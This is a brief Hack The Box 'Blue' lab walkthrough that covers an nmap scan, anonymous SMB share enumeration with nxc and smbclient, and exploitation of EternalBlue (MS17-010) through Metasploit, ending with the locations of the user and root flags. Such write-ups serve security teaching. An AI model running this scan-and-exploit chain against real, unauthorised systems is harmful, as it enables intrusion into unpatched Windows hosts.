 # -HTB-Blue

### Start with a nmap scan
```
nmap -sVC -p- 10.10.10.40 -oN nmap_scan --min-rate 5000
```
> - `-sVC`: Detect service/version /// Run default scripts
> - `-oN`: Output to file (normal format)
> - `--min-rate 5000`: Fast scan 5000 p/s


<img width="917" height="694" alt="image" src="https://github.com/user-attachments/assets/fbfe642a-ecf9-467d-8296-a4db89ac7e44" />


### We see the smb it s open so we use nxc and try anonymus loggin:
```
nxc smb 10.10.10.40 -u "" -p "" 
```
<img width="1355" height="78" alt="image" src="https://github.com/user-attachments/assets/fdd80c02-c259-4e0d-9128-1afaa00c0709" />


### I use --shares to enumerate the shares as the Guest account  :
```
nxc smb 10.10.10.40 -u "Guest" -p "" --shares
```


<img width="1324" height="209" alt="image" src="https://github.com/user-attachments/assets/627ea548-6da3-4e8a-9969-42103bd03a17" />

### After i use smbclient to connect to the smb with -N ( no pass ) 
```
smbclient //10.10.10.40/Users -N
```
<img width="690" height="178" alt="image" src="https://github.com/user-attachments/assets/b2dbbb4f-20a9-42a9-82cc-1370d02cff97" />

### After a lot of files ... i got back to the nmap scan and search on google : "Windows 7 Professional 6.1 exploit smb" .And find that has an remote code execution on the smb name as : EternalBlue Exploit | MS17-010  // And Metasploit has an exploit we can use 

<img width="1383" height="784" alt="image" src="https://github.com/user-attachments/assets/35a7faba-30d7-4ca0-b6f1-65cc8e18053a" />

- set lhost <YOUR $IP>
- set rhost 10.10.10.40

<img width="181" height="47" alt="image" src="https://github.com/user-attachments/assets/a3d4c8cd-f61c-4c3c-9fc1-a7306732dc2d" />

### And we find the users in flag :
```
C:\Users\haris\Desktop
```

<img width="569" height="163" alt="image" src="https://github.com/user-attachments/assets/5c92b9ca-6967-4dfd-bb70-d971d67e7ac7" />


### And the root in flag:
```
C:\Users\Administrator\Desktop
```
<img width="564" height="165" alt="image" src="https://github.com/user-attachments/assets/229c097e-9d7d-450c-a4c9-98e1bb5f635e" />
